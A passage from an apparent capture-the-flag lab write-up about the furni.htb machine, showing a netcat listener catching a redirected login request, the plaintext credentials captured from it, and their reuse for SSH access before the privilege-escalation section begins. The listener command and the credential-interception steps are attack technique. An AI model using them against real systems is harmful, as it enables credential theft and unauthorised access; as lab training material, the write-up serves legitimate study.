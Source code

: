 Before sending it, set up a listener on port `8081` and you will receive this:

![](cybersecurity/images/Pasted%2520image%252020250619162916.png)
```http
nc -lvnp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.66 45648
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=YWMxYmMwNjctNGQxMi00ZWQ3LThiNTQtODE0NjNkZTFiMjk0
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:58430"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.234:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=7PN44TGznjhgdwtU-WEzGcPVCMm-mUAgWinW6TDhuWq7e2oB25ce1wKG_QlNQz0wwUwHIKGzJfHa-HYNPx2wiFPZgQuCGAg4
```

There we go, we got credentials:

```
miranda.wise:IL!veT0Be&BeT0L0ve
```

Let's go into ssh:

![](cybersecurity/images/Pasted%2520image%252020250619163212.png)

`miranda.wise` does not work, `miranda-wise` works though:



![](cybersecurity/images/Pasted%2520image%252020250619163302.png)

So, correct credentials are:

```
miranda-wise:IL!veT0Be&BeT0L0ve
```

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---
